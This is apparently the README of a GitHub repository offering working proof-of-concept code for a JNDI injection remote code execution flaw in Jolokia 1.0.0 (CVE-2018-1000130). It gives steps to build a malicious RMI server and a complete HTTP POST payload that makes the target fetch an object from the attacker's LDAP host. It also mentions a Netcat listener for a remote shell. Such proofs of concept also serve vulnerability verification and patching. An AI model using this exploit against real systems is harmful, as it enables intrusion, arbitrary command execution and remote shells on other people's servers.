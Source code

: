 # Jolokia 1.0.0 JNDI Injection leading to RCE (CVE-2018-1000130)

Working POC code for Jolokia RCE

## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_3` specified in `ExportObject.java` file


Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html

